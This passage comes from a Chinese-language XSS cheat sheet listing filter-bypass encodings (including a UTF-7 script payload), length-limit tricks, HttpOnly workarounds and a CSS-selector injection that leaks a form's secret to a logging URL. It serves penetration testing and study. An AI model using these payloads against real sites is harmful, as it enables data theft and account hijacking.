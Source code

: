     - jsfuck
    - String.fromCharCode
    - HTML
    - URL
    - hex
        - ``window["\x61\x6c\x65\x72\x74"]``
    - unicode
    - utf7
        - ``+ADw-script+AD4-alert('XSS')+ADsAPA-/script+AD4-``
    - utf16
- 大小写混淆
- 对标签属性值转码
- 产生事件
- css跨站解析
- 长度限制bypass
    - ``eval(name)``
    - ``eval(hash)``
    - ``import``
    - ``$.getScript``
    - ``$.get``
- ``.``
    - 使用 ``。`` 绕过IP/域名
    - ``document['cookie']`` 绕过属性取值
- 过滤引号用 `` ` `` 绕过

## 花式技巧

### httponly

- 在cookie为httponly的情况下，可以通过xss直接在源站完成操作，不直接获取cookie。
- 在有登录操作的情况下，部分站点直接发送登录请求可能会带有cookie
- 部分特定版本的浏览器可能会在httponly支持/处理上存在问题
- 低版本浏览器支持 TRACE / TRACK，可获取敏感的header字段
- phpinfo 等页面可能会回显信息，这些信息中包含http头
- 通过xss劫持页面钓鱼
- 通过xss伪造oauth等授权请求，远程登录


### CSS 注入

CSS注入最早开始于利用CSS中的 ``expression()`` ``url()`` ``regex()`` 等函数或特性来引入外部的恶意代码，但是随着浏览器的发展，这种方式被逐渐禁用，与此同时，出现了一些新的攻击方式。

#### CSS selectors

    <style>
        #form2 input[value^='a'] { background-image: url(http://localhost/log.php/a); }
        #form2 input[value^='b'] { background-image: url(http://localhost/log.php/b); }
        #form2 input[value^='c'] { background-image: url(http://localhost/log.php/c); }
        [...]
    </style>
    <form action="http://example.com" id="form2">
        <input type="text" id="secret" name="secret" value="abc">
    </form>
